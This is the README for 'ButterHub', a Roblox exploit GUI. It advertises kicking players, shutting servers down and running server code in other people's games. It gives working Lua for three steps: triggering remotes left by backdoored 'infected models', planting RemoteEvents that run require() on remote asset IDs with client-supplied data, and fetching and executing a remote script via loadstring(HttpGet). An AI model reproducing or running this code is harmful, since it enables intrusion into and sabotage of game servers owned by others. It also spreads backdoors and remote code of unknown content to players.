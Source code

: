 # ButterHub

## ButterHub is a Roblox ServerSided and FE exploiting GUI, this GUI consists of a Server Side and FE Version. [Our Discord Server](https://discord.gg/xWYcdnECvw)

---

<p style="font-size:40px"><strong>Main Information</strong></p>

<p style="font-size:35px"><strong>Description</strong></p>

<p style="font-size:18px">
    <span>
    <strong>
        ButterHub
    </strong>
    </span>
    <span>
    is a Roblox Exploit GUI, this GUI has many options such as <code>Commands</code>, <code>Themes</code>, <code>Player Action</code>, and <code>More</code>! ButterHub is technically a Server Destroying but Fun Roblox GUI, it states if the game has FilteringEnabled 
    </span>
    <span style="color: rgb(0,255,0)">
    <strong>Enabled (True)</strong>
    </span>
    </span>
    or
    </span>
    <span style="color: rgb(255,0,0)">
    <strong>Disabled (False)</strong>
    </span>
    <br/>
    <br/>
</p>

---

<p style="font-size:18px">
    <span style="font-size: 35px">
    <strong>Versions</strong>
    </span>
    <br/>
    <br/>
    <span style="margin-left:40px;font-size:25px;">
    <strong>SS (ServerSide)</strong>
    </span>
    <br/>
    <span>
    The ServerSide version is the most powerful as it can, <code>Kick</code>, <code>Shutdown Server</code>, <code>Run Require Scripts</code>, <code>Run Client and Server Code</code>, and <code>More</code>! The ServerSide is the <strong>Main version</strong> of ButterHub, right now it is currently in <strong style="color:rgb(0,120,255)">BETA</strong>.
    </span>
    <br/>
    <br/>
</p>

<p style="font-size:18px">
    <span style="margin-left:40px;font-size:25px;">
    <strong>FE (FilteringEnabled)</strong>
    </span>
    <br/>
    <span>
    The FE version is the average strength GUI that runs only Client Code. It does have it advantages though as it has, <code>Script Hub</code>, <code>More Options</code>, and <code>More</code>! The FE Version is the <strong>Secondary version</strong> of ButterHub it is mostly used in Exploiting instead of just games, right now it is currently <strong style="color:rgb(255,0,0)">NOT DONE</strong>.
    </span>
    <br/>
    <br/>
</p>

---

# **How to Run**

## **SS (ServerSide)**

### This one only works in some games that have the Infected Models in them, it abuses remotes to initalize it to you.
### So do not get mad if it does not work in a lot of games. It will only work in games with 1: The model, 2: Backdoor to allow you to run SS code. (How to use is stated below)

```lua
-- [[
Made by Puro,#0224 on Discord,
Join Our Discord: https://discord.gg/xWYcdnECvw
]] --

for _, Remote in ipairs(game:GetService("JointsService"):GetDescendants()) do
    if (Remote.Name:match("%^\\*")) then
        Remote:FireServer()
    end
end
```

### **How to use the SS Code part**

```lua
------------------------------------
--  Made by Puro,#0224 on Discord,
--  Join Our Discord: https://discord.gg/xWYcdnECvw
--  
--  THIS WILL ALLOW YOU TO USE THE GUI IF THE MODEL ISN'T IN THE GAME BUT YOU CAN EXECUTE SERVER CODE.
------------------------------------

local Kill = Instance.new('RemoteEvent', game:GetService('JointsService'))
Kill.Name = "%^\\Kill Event" --// It is important that "%^\\" is somewhere in the game.
local End = Instance.new('RemoteEvent', game:GetService('JointsService'))
End.Name = "%^\\*End Kill" --// It is important that "%^\\*" is somewhere in the game.
Kill.OnServerEvent:Connect(function(player, initData)
    require(11566712898)(initData)()
end)
End.OnServerEvent:Connect(function(player)
    require(11566309513).load(player.Name)
end)
```

### You then execute the first script.

## **FE (FilteringEnabled)**

### This one works in all games, but games could patch it. All you need to do is run the github Repository.

```lua
------------------------------------
--  Made by Puro,#0224 on Discord,
--  Join Our Discord: https://discord.gg/xWYcdnECvw
--  
--  THIS IS AN FE VERSION THAT CAN BE USED IN **EVERY GAME**, BUT NOT AS STRONG AS SS
------------------------------------

loadstring(game:HttpGet("https://raw.githubusercontent.com/ButterHub/ButterHub/main/ButterHubSource.lua"), true)()
```
